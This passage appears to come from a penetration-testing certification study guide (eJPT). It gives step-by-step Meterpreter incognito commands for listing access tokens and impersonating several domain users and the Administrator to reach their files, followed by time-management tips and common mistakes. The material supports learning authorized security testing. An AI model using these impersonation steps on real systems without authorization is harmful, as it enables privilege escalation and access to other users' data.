 #### **Scenario 3: Multiple User Token Exploitation**
**Given:** System with multiple logged-in users
**Your Job:** Access files from different user accounts
**Time Limit:** 10-12 minutes

**Step-by-Step Solution:**
```bash
# Step 1: Comprehensive token enumeration (2 minutes)
load incognito
list_tokens -u
list_tokens -g
# Document all available users

# Step 2: Test each user token systematically (4-6 minutes)
impersonate_token DOMAIN\\User1
getuid
# Try to access User1's files
rev2self  # Return to original token

impersonate_token DOMAIN\\User2
getuid
# Try to access User2's files
rev2self

# Step 3: Focus on highest privilege account (2-3 minutes)
impersonate_token DOMAIN\\Administrator
# Complete primary objectives with admin access

# Step 4: Document findings (2 minutes)
# Note which users were accessible and what files were found
```

### **📝 eJPT Exam Tips and Strategies:**

#### **⏰ Time Management Best Practices:**
- **1 minute:** Load incognito and initial token enumeration
- **1-2 minutes:** Identify highest privilege tokens available
- **2-3 minutes:** Perform impersonation and verify success
- **Remaining time:** Complete specific objectives and document findings

#### **🎯 Common Mistakes to Avoid:**
1. **Forgetting to load incognito** → Always first step after meterpreter access
2. **Wrong token syntax** → Use double backslashes: DOMAIN\\\\Username
3. **Not verifying escalation** → Always run getuid after impersonation
4. **Skipping token enumeration** → Always check what tokens are available first
5. **Not testing file access** → Verify privileges by accessing restricted files

#### **✅ Signs You're Succeeding:**
- **Quick token discovery** → Available tokens found within 1-2 minutes
- **Successful impersonation** → "Successfully impersonated" message appears
- **Privilege verification** → getuid shows new user context
- **File access granted** → Previously restricted files now accessible
- **Mission completion** → All objectives achieved with elevated privileges
